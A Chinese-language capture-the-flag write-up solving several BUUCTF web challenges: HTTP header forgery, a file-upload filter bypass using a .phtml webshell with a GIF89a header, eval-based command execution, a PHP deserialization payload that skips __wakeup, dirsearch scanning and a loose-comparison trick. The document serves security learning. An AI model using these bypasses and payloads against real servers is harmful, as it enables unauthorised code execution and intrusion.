

# 刷题！

## [极客大挑战 2019]Http

进入实例得到一个网站，看不出什么端倪，将源代码拷贝到本地./http.html查看。

在第57行发现Secret.php，在url中尝试直接访问。回显：

It doesn't come from 'https://Sycsecret.buuoj.cn'

结合题目标题名字，我们应该是要修改http的报头来使得在服务端看来我们的请求来自上面这个地址，

类似的后面还有几项要修改，这里简单汇总一下，按照要求修改报头再请求就得到flag。

- Referer: https://example.com/previous-page 正常情况下用来记录跳转前的源网站，一般用于统计流量来源等，这里被我们手动修改来伪造来源
- User-agent：记录浏览器信息，正常来说可以随意修改（在做题的时候，这里被修改为指定Sysclover
- X-Forwarded-For：记录到达服务端的上一个代理地址，这里被我们修改为127.0.0.1，因为提示要从本地访问，利用本地回环地址即可简易伪造成本地请求(测试了一下0.0.0.0不行)

## [极客大挑战 2019]Upload

文件上传类型的简单模版题！

因为文件上传之后应该会存储在服务器内部，所以获取shell的一种直白思路就是放一个木马php进去，然后通过网页url执行。

比较简单的测试木马php可以这么写：

```php
<?php
    shell_exec("echo \"I got you.\"")
?>
```

在本地保存为1.php，然后上传，回显：

No image!

看来是一定要我们提交image文件，一种想法是可以在bs里面修改一下文件类型试试：

```
POST /upload_file.php HTTP/1.1

Host: e35e60ad-a5d5-4221-b82b-3723837ada13.node5.buuoj.cn:81

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------397188862432432799893869978614

Content-Length: 389

Origin: http://e35e60ad-a5d5-4221-b82b-3723837ada13.node5.buuoj.cn:81

Connection: keep-alive

Referer: http://e35e60ad-a5d5-4221-b82b-3723837ada13.node5.buuoj.cn:81/

Upgrade-Insecure-Requests: 1

Priority: u=0, i


-----------------------------397188862432432799893869978614

Content-Disposition: form-data; name="file"; filename="1.php"

Content-Type: application/x-php


<?php
    shell_exec("echo \"I got you.\"")
?>


-----------------------------397188862432432799893869978614

Content-Disposition: form-data; name="submit"


提交

-----------------------------397188862432432799893869978614--
```

把content-type改一下，因为猜测其会过滤文件类型，改成image/png就可以，回显：

NOT！php!

说明应该是过滤了php语言里的一些东西，但我们又需要用php执行来进行渗透，这个时候就需要涨点新知识：

***phtml*** 是一种文件扩展名，通常用于PHP脚本文件。
详细介绍
1. 含义
    .phtml 代表 PHP Hypertext Markup Language。
    本质上是 PHP 文件，内容可以包含 HTML、PHP 代码、CSS、JavaScript 等。

2. 用途
    用于和 .php 文件一样，在服务器端解析为动态网页。
    早期（如 PHP3、PHP4）常用 .phtml 后缀，后来主流变成 .php。
    有些项目可能用 .phtml 区分“纯模板文件”（只输出 HTML 和变量，不包含业务逻辑），但这不是官方标准。

3. 执行方式
    只要服务器（如 Apache/Nginx）配置 .phtml 后缀交给 PHP 解析器处理，该文件就和 .php 一样能执行 PHP 代码。

4. 安全与渗透相关
    安全测试/渗透场景：有时上传过滤只允许 .php，但忘记拦截 .phtml，导致可以上传 WebShell。渗透测试常用此后缀绕过限制。

5. 兼容性
    现代 PHP 环境一般默认支持 .phtml 后缀，只要在服务器配置里有对应的解析规则。

我们把木马用.phtml的格式重写，就可以不再出现php文件的标志性的'<?'(一般都用这个来过滤php文件防注入)：

```phtml
<script language='php'>
    shell_exec("echo \"I got you.\"")
</script>
```

回显：

Don't lie to me, it's not image at all!!!

说明还有进一步的检测，比较普遍的是getimagesize()来检测，这个函数返回图片的大小等信息，我们只需要伪造一个gif的文件头：

GIF89a

就可以轻松绕过，最后得到回显：

上传文件名: 1.phtml

成功上传了！我们访问./upload文件夹来找一下我们上传的文件：



可以看到是成功上传了的，我们尝试执行：

./1.phtml

发现没有输出？

查了一下似乎直接使用shell_exec不行，类似的我们还有system(),修改木马之后即得到回显：

GIF89a I got you. 

看来是没问题了，现在我们先用ls找一下flag，然后取出来就可以。

PS：一般把这种测试用的木马叫“一句话木马”

## [极客大挑战 2019]Knife

标题叫knife，直接用knife软件破解当然是很轻松的，不过大魔导师果然还是要钻研一下原理。

小知识：eval()表示直接执行括号内的 ***php*** 语句

可以直接用Hackbar来进行POST的传入，在输入框内填上a=0&b=1就可以直接用POST方法传入参数了，

我们先测试性传入Syc=phpinfo()，回显正常。

于是我们迫不及待输入`Syc=echo system("ls /");`,却发现没有任何反应，why?

排查了很久都不知道为什么，最后一语点醒梦中人，看一下源代码（永远，永远看网页要看源代码！），发现其实已经显示出来了，只是因为字体颜色也是黑色被背景覆盖了...

总之后面正常RCE拿flag就可以。

## 关于php的反序列化漏洞

在进入下一题之前，我们来补一下课。

php的类定义了一件事物的抽象特点，类的定义包含了数据的形式以及对数据的操作。

```php
<?php
    class Person{
        /*成员变量 */
        public $name;//公有
        var $weight;//用var来定义则默认为公有
        private $age;//私有
        protected $sex;//受保护
        /**成员函数 */
        //构造函数：用于在创建对象时初始化对象（与new运算符搭配使用，也就是使用new时默认执行）
        function __construct($n,$w,$a,$s){
            $this->name=$n;
            $this->weight=$w;
            $this->age=$a;
            $this->sex=$s;
        }

        //析构函数：当对象生命周期结束时，系统自动调用
        function __destruct(){
            print "对象销毁！";
        }
        function SetAge($a){
            $this->age=$a;
        }
        function GetAge(){
            echo $this->age;
        }//和其他语言里的类类似
    }
?>
```

至于php里的对象，也就是用new定义的类的实例，比如`$baidu = new Site;`就定义了一个Site的实例baidu

关于PHP里的Magic函数，也叫魔术方法，也就是满足响应的条件时就会被自动调用的函数，具体有这些：

| 函数 | 调用时机 |
| ---- | ---- |
| __construct | 对象创建时被调用 |
| __destruct | 对象销毁时被调用 |
| __toString | 对象被当作一个字符串使用时被调用 |
| __sleep | 对象被序列化之前运行 |
| __wakeup | 对象被反序列化之后被调用 |
| __call | 在对象上下文中调用不可访问的方法时触发 |
| __callStatic | 在静态上下文中调用不可访问的方法时触发 |
| __isset | 在不可访问的属性上调用isset()或empty()触发 |
| __unset | 在不可访问的属性上使用unset()时触发 |
| __invoke | 当脚本尝试将对象调用为函数时触发 |

而关于序列化也有这样一些函数：

| 函数 | 作用 |
| ---- | ---- |
| __serialize() | 对对象调用serialize()方法，php>7.4.0 |
| __unserialize() | 对对象调用unserialize()方法，php>7.4.0 |
| __get() | 用于从不可访问的属性读取数据 |
| __set() | 用于将数据写入不可访问的属性 |

序列化的作用也可以大概简单理解一下：我们要对对象进行传输以及跨平台的使用时，自然需要把对象转换成字符串来存储要方便的多，比如python里的pickle打包。同时也可以用与Cookie或Session。

用法也很简单，`var_dump(serialize($obj))`就可以查看对象的序列化结果了。

php只支持使用原生的php序列化格式进行序列化。

有些敏感的变量不想序列化的话，则需要重写__sleep()方法。

用unserialize将字符串，反序列化成一个对象：

注意：

1、如果传递的字符串，格式错误 或 不可以序列化，则返回FALSE

2、如果对象没有预定义，反序列化得到的对象是__PHP_Incomplete_Class

反序列化与Magic函数

php当调用反序列化方法unserialize时，会自动触发魔术方法__wakeup()或__unserialize(7.4.0)

如果类中同时定义了__unserialize()和__wakeup()两个魔术方法，则只有__unserialize()方法会生效，__wakeup()方法会被忽略

接下来我们看这题来接触一下反序列化漏洞：

## [极客大挑战 2019]PHP

可爱的猫猫...好有意思的鼠标跟随效果！

咳咳回到正题，把源代码拷贝下来，放到./ihaveacat.html里面，审计一下，没有看出什么端倪

作者说他有备份网站的好习惯，那么我们用一个简答的脚本(scan_backup.py)来扫一下服务器端目录下面有没有什么网站的备份文件。

(类似也可以扫一些其他的文件)

在应答中我们找到一个不404的文件叫www.zip，访问下载到本地，打开便是作者留给我们的线索了。

flag.php里面一看就是没用的（）

class.php和index.php毫无疑问告诉我们这是一道与反序列化有关的题。

flag藏在class.php的的__destruct文件里，而$res由我们传入的select反序列化而来，那么我们只需要构造一下符合要求的对象，然后序列化，并将结果用select传入就好了。具体的要求，username要是'admin',password要是int(100)，构造序列化结果如下：

O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}

其实还是蛮清晰的，基本可以看清楚每一个量具体代表什么（大概）

至于为什么username序列化成了Nameusername，这是因为其被定义为private变量导致的。

所以就还剩一个问题，怎么绕过__wake()

这里用到一个小技巧，如果Name:2这里的变量个数比目标类的定义变量个数多那么php就会不执行__wake()，大概是认为这应该是一个error，但实际上还是把内容完整的unserialize出来了...

传入之前别忘了urlencode()：

"O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D" 

传入得到flag{15515384-97ea-4a6c-bf1d-9cd6fb0e42d3} 

PS:中途有被拦截的情况，猫猫头上没有作者的提示输出，要去源代码看具体的拦截信息！

PSS:其实有机会可以用python写一个脚本用来进行序列化的操作这样就不用跑一遍Php（笑）

PSSS:介绍一个比简单的扫描脚本更好用的工具：dirsearch

简单的使用方法：

```bash
python3 dirsearch.py -u http://目标网址/ -w 字典路径 -f -q -t 10 -e php,txt,zip,rar,bak
```

-u：目标网址（如 http://example.com/）
-w：字典文件（如 ../words.txt）
-f：仅显示成功发现的条目（即 200/2xx/3xx 默认，重点参数）(没什么用因为429也会回显)
-q：安静模式，减少无关输出
-t：线程数（根据目标实际情况调整）
-e：扩展名（可选，根据你的需求添加

可以结合管道来筛选有效信息，如筛选'200'之类的

可以git clone库，也可以直接在apt上install

## [ACTF2020 新生赛]BackupFile

和上道题一样，上来就提示我们要搜寻源代码，这次用dirsearch.py暴力搜索好了。

花一些时间，搜到一个200的/index.php.bak

这个.bak文件原来是php，是纯文本.bak，用记事本打开就行；也有一些.bak文件是数据库之类的备份，要用对应手段来还原。

拷贝出来，放在了backup_index.php

```php
$key = $_GET['key'];
if(!is_numeric($key)) {
    exit("Just num!");
}
$key = intval($key);
$str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
if($key == $str) {
    echo $flag;
}
```

看这一段，首先key不能是纯整数，随后key被强制转化为整数（intval），这种转化只会取开头的数字，然后后面全部截断。

而在后面字符串和数字比较的时候，str也会先被强行截断，相当于也跑过了一遍intval，自然得到的是数字123，所以我们的payload就是：

?key=123

就可以得到flag。


